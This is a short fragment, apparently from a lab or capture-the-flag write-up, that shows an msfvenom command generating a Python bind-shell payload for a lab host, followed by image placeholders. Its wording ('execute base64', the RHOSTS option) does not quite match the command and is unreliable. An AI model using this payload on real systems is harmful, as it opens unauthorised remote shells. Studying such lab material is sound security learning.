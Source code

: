 
To generate a payload that can execute **base64** with **msfvenom**, assuming the host is 10.10.10.55 and runs a Python server, we use the **syntax command**:

> msfvenom -p python/shell_bind_tcp  LPORT=9005 RHOSTS=10.10.10.55 -f python -o payload.py


![alt text](image-19.png)

![alt text](image-20.png)






    
  
  

 